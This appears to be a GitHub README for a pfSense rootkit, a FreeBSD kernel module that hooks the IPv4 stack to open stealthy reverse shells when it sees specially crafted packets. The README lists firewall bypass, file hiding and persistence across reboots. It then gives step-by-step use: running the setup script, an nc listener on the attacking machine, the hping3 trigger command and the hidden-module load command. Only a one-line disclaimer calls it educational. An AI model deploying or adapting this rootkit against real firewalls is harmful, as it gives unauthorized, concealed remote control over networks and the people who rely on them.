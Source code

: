 # House of Sharad - pfSense Rootkit

## 🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack of the FreeBSD kernel, allowing for stealthy reverse shells by detecting specially crafted packets.

## 🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) bsd_freebsd project. Huge thanks for this work!

## 📌 Compatibility

The precompiled .ko files are mainly compatable with pfSense 2.7.2 CE but have also worked for pfSense 2.7.1 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

## 🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked) while showing malicous incoming packets as dropped

✅ Persistance accorss reboots and unloading

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (pfSense’s nc lacks reverse shell support)

## 🏗️ Installation

### 1️⃣ Cloning and Setup

### Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git

```cd house_of_sharad```

### Set execution permissions
```chmod +x load_and_setup.sh```

### Run the setup script
```./load_and_setup.sh```

Once the script completes, you'll be inside a ghost /house_of_sharad directory. To return to root, run:

```cd /```

## 🛡️ Getting a Reverse Shell

### 1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

```nc -lvnp 7000```

### 2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

```sudo hping3 -S -p 80 -s 6969 <TARGET_IP>```

🔹 Port 80 is a good choice for the destination port.
🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

## 🧩 Additional Notes

Persistence: This rootkit is loaded via apeshit.sh upon boot, which is setup by load_and_setup.sh.

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module, this is also finickey and the texct might just appear in kernel logs instead (this happened in pfSense 2.7.1 CE but it worked as intended in pfSense 2.7.2 CE).

### Loading It

```kldload /boot/modules/.evil/evil.ko```

# ⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.

